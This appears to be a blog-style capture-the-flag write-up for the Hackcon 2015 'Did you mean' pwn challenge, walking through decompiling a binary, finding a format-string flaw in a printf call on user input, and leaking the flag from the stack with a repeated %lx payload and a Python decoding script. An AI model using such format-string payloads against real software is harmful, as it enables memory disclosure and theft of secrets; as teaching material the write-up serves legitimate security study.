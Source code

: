 ```yaml
---
layout: post
title:  "Hackcon 2015: Did you mean"
categories: hackcon2015
tags: ctf pwn
date: 2015-08-20 19:00:00
---
```


> Category: *pwn* - Points: *50*
>
> Description: *Pwnie*

The task provides us with the file [`pwnie`]({{ site.url }}/assets/hackcon2015/pwnie) and an ip and address for a webservice.

    $ file pwnie
    pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped

Let's try to run it:

    $ ./pwnie
    No!

Ok, sorry. Let's check the output of `strings`. The only interesting ones are:

    flag.txt
    The flag's right!
    Did you say:

So it seems that the file `flag.txt` is involved. Let's create it with content: `ABCDEFGHIJKLMNOP` and run the program again. Now the program waits for our input and if we put again `ABCDEFGHIJKLMOP` this happens:

    $ ./pwnie
    ABCDEFGHIJKLMNOP
    The flag's right!

Ok, we have to produce some interesting payload, let's start IDA and decompile the `main`. We also added some comment in the code to highlight the important parts.

{% highlight c %}
...
  v3 = fopen("flag.txt", "r");
  if ( v3 )
  {
    fgets((char *)&v7, 100, v3);  // v7 is the content of v3 (flag.txt)
    fgets(&s, 100, stdin);        // s is the string from the stdin
    v4 = strncmp(&s, (const char *)&v7, 0xAuLL); 
    if ( v4 )   // if they do not match
    {
      v4 = 0;
      puts("Did you say: ");
      fflush(_bss_start);
      __printf_chk(1LL, &s);      // print the user input
      fflush(_bss_start);
    }
    else
    {
      puts("The flag's right!");  // the flag is correct
      fflush(_bss_start);
    }
  }
  else                            // the file does not exist
  {
    v4 = -1;
    puts("No!");
    fflush(_bss_start);
  }
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return v4;
}
{% endhighlight %}

There is a *string format exploit* in the line:

    __printf_chk(1LL, &s);

The user input is treated as format string. So we can exploit this to dump the stack and get our flag. Since the program is in 64 bits we need to use the placeholder `%lx` to print a whole memory block. The `fgets` is told to copy 100 bytes, so we can join 33 times `%lx` in order to get more data from the stack.

    $ ./pwnie
    %lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx

The output is:

> 07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50

We can easily spot the part that holds the content of the file stored in little endian:

    4847464544434241504f4e4d4c4b4a49

So the interesting part comes after 26 bits. We can use python to convert the stack into readable data:

{% highlight python %}
data = "07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50"

for i in xrange(26, len(data), 16):
    print repr(data[i:i+16].decode('hex')[::-1])
{% endhighlight %}

The result is:

    'ABCDEFGH'
    'IJKLMNOP'
    'R\xe4\x05\xef\xf7\x07\x00\xa0'
    '\xff\x07\x98\xa6\x14\xf4\xff\x07'

We can use the same technique on the webservice and get the flag: `FORMAT(STR)`.

